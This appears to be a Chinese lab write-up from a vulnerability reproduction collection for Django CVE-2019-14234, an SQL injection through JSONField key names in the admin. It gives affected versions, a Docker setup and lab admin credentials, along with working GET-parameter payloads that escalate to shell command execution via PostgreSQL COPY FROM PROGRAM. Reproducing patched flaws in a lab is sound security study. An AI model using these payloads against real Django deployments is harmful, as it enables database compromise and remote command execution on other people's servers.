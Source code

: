 # Django JSONField/HStoreField SQL注入漏洞 CVE-2019-14234

## 漏洞描述

Django在2019年8月1日发布了一个安全更新，修复了在JSONField、HStoreField两个模型字段中存在的SQL注入漏洞。

参考链接：

- https://www.djangoproject.com/weblog/2019/aug/01/security-releases/
- https://www.leavesongs.com/PENETRATION/django-jsonfield-cve-2019-14234.html

该漏洞需要开发者使用了JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。Django自带的后台应用Django-Admin中就存在这样的写法，我们可以直接借助它来复现漏洞。

## 漏洞影响

```
Django (1.11.x) Version < 1.11.23
Django (2.1.x) Version < 2.1.11
Django (2.2.x) Version < 2.2.4
```

## 环境搭建

Vulhub执行如下命令编译及启动一个存在漏洞的Django 2.2.3：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

首先登陆后台`http://your-ip:8000/admin/`，用户名密码为`admin`、`a123123123`。

登陆后台后，进入模型`Collection`的管理页面`http://your-ip:8000/admin/vuln/collection/`：

![image-20220222163035330](images/202202221630392.png)

然后在GET参数中构造`detail__a'b=123`提交，其中`detail`是模型`Collection`中的JSONField：

```
http://your-ip:8000/admin/vuln/collection/?detail__a%27b=123
```

可见，单引号已注入成功，SQL语句报错：

![image-20220222163246655](images/202202221632754.png)

命令执行，执行`touch /tmp/awesome_poc`，可以替换成其他命令并且执行。

```
http://your-ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'touch /tmp/awesome_poc'--%20 
```

提示`no results to fetch`即为执行成功。

![image-20220222164004504](images/202202221640588.png)

